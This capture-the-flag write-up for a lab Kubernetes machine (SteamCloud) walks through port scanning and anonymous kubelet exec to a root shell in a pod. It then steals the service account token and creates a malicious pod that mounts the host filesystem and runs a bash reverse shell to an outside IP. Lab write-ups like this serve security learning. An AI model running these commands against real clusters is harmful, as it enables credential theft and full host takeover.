



# Recon

First, we scan all tcp ports as follows:

```bash
> nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.133
PORT      STATE SERVICE
22/tcp    open  ssh
2379/tcp  open  etcd-client
2380/tcp  open  etcd-server
8443/tcp  open  https-alt
10249/tcp open  unknown
10250/tcp open  unknown
10256/tcp open  unknown
```

Then, we scan found open ports with more detail:

```bash
> nmap -p 22,2379,2380,8443,10249,10250,10256 -sCV -oA scans/nmap-tcpdetail 10.10.11.133

PORT      STATE SERVICE          VERSION
22/tcp    open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fcfb90ee7c73a1d4bf87f871e844c63c (RSA)
|   256 46832b1b01db71646a3e27cb536f81a1 (ECDSA)
|_  256 1d8dd341f3ffa437e8ac780889c2e3c5 (ED25519)
2379/tcp  open  ssl/etcd-client?
| tls-alpn:
|_  h2
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2023-05-05T08:33:16
|_Not valid after:  2024-05-04T08:33:16
2380/tcp  open  ssl/etcd-server?
| tls-alpn:
|_  h2
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2023-05-05T08:33:16
|_Not valid after:  2024-05-04T08:33:16
8443/tcp  open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=minikube/organizationName=system:masters
| Subject Alternative Name: DNS:minikubeCA, DNS:control-plane.minikube.internal, 
DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default,
DNS:kubernetes, DNS:localhost, IP Address:10.10.11.133, IP Address:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1
| Not valid before: 2023-05-04T08:33:13
|_Not valid after:  2026-05-04T08:33:13
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 403 Forbidden
|     Audit-Id: a680155c-edaf-451b-9375-c5dd7528b21c
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: bddec925-d433-4c0d-a577-039d4fc4def4
|     X-Kubernetes-Pf-Prioritylevel-Uid: 16bf18e8-a756-4e99-abe5-9c3e52ba2de5
|     Date: Fri, 05 May 2023 09:01:35 GMT
|     Content-Length: 212
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure",
"message":"forbidden: User "system:anonymous" cannot get path "/nice ports,/Trinity.txt.bak"","reason":"Forbidden","details":{},"code":403}
|   GetRequest:
|     HTTP/1.0 403 Forbidden
|     Audit-Id: 4ae44f55-d576-4d66-8448-7f524c53aecd
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: bddec925-d433-4c0d-a577-039d4fc4def4
|     X-Kubernetes-Pf-Prioritylevel-Uid: 16bf18e8-a756-4e99-abe5-9c3e52ba2de5
|     Date: Fri, 05 May 2023 09:01:34 GMT
|     Content-Length: 185
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure",
"message":"forbidden: User "system:anonymous" cannot get path "/"","reason":"Forbidden","details":{},"code":403}
|   HTTPOptions:
|     HTTP/1.0 403 Forbidden
|     Audit-Id: 4e52e31a-fe38-44b8-b530-c4d2422cff9e
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: bddec925-d433-4c0d-a577-039d4fc4def4
|     X-Kubernetes-Pf-Prioritylevel-Uid: 16bf18e8-a756-4e99-abe5-9c3e52ba2de5
|     Date: Fri, 05 May 2023 09:01:35 GMT
|     Content-Length: 189
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure",
"message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
|_http-title: Site doesn't have a title (application/json).
10249/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
10250/tcp open  ssl/http         Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| ssl-cert: Subject: commonName=steamcloud@1683275600
| Subject Alternative Name: DNS:steamcloud
| Not valid before: 2023-05-05T07:33:19
|_Not valid after:  2024-05-04T07:33:19
| tls-alpn:
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
10256/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

From this scan (especially information from port 8443), it seems there is
kubernetes cluster running here. There also is minikube server.

## Kubernetes cluster

  

  



Based on this diagram and port info from documentation, 
on port 8443 is api server in minikube.

Trying go access it with kubectl tool did not yield promising results:

```sh
> kubectl --server https://10.10.11.133:8443 get pod
Please enter Username: ^C
> kubectl --server https://10.10.11.133:8443 get namespaces
Please enter Username: ^C
> kubectl --server https://10.10.11.133:8443 cluster-info
Please enter Username: ^C
```

Instead, we will use another tool, kubeletct, to try to access 
kubelets on the server:

```sh
> kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
["kube-proxy-86tm7","kube-system"]
["storage-provisioner","kube-system"]
["kube-controller-manager-steamcloud","kube-system"]
["kube-scheduler-steamcloud","kube-system"]
["kube-apiserver-steamcloud","kube-system"]
["etcd-steamcloud","kube-system"]
["nginx","default"]
["coredns-78fcd69978-wpcxr","kube-system"]
```

# Root nginx shell

Based on previous attempts with kubectl, we can assume that pods in 
kube-system namespace won't be accessible to just anyone.
There is only one pod that is in different, "default" group. 
We will try to execute command on it:

```sh
> kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
uid=0(root) gid=0(root) groups=0(root)
```

It's a success. Now we will open shell inside:

```sh
> kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
```

We may have a root access, but it's only for a single container (nginx).
Now we will work to get root shell on SteamCloud.

# Root SteamCloud shell

First, we will find ServiceAccout object, which is managed by Kubernetes
and provides identity within the pod. It gives three typical directories:

```sh
/run/secrets/kubernetes.io/serviceaccount
/var/run/secrets/kubernetes.io/serviceaccount
/secrets/kubernetes.io/serviceaccout
```

Inside the pod we got access to:
```bash
> ls /run/secrets/kubernetes.io/serviceaccount
ca.crt	namespace  token
```

Following will be useful:  
- ca.crt - it's the ca certificate to check kubernetes communications  
- token - it contains the service token of the current pod  

We will save these on our attack machine:

```bash
> kubeletctl -s 10.10.11.133 exec \
    "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" \
    -p nginx -c nginx | tee ca.crt


> kubeletctl -s 10.10.11.133 exec \
    "cat /run/secrets/kubernetes.io/serviceaccount/token" \
    -p nginx -c nginx | tee token
```

You can save token to $token variable, to save yourself copy-pasting:

```bash
> export token=$(kubeletctl -s 10.10.11.133 \
  exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```

Now, we try to get information from API pod with auth data we retrieved:

```bash
> kubectl --server https://10.10.11.133:8443\
    --certificate-authority=ca.crt --token=$token get pod
```

Next, we have to see what can we do with these credentials:

```bash
kubectl auth can-i --list --server https://10.10.11.133:8443\
    --certificate-authority=ca.crt --token=$token

Resources                                     ...SNIP...  Verbs
selfsubjectaccessreviews.authorization.k8s.io ...SNIP...  [create]
selfsubjectrulesreviews.authorization.k8s.io  ...SNIP...  [create]
pods                                          ...SNIP...  [get create list]

...SNIP...
```

Last line of output tells us, that we can create new pods.
We will use that to gain root for SteamCloud.

We create "evil-pod.yaml" file, config file for new container:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: 0xdf-pod2
  namespace: default
spec:
  containers:
  - name: 0xdf-pod2
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Notice, that in command and args spec we set up reverse shell that will
allow us to connect to it immediatelly after creating. Also, this new
container mounts host file system under /mnt directory, giving
us full access to underlying filesystem.

We start listening on port 443:
```bash
> sudo nc -lvnp 443
```

And create our pod:
```bash
> kubectl apply -f payloads/evil-pod.yaml \
  --server https://10.10.11.133:8443 \
  --certificate-authority=auth/ca.crt \
  --token=$token

pod/0xdf-pod2 created
```

Now we should have reverse shell with root access to underlying filesystem.
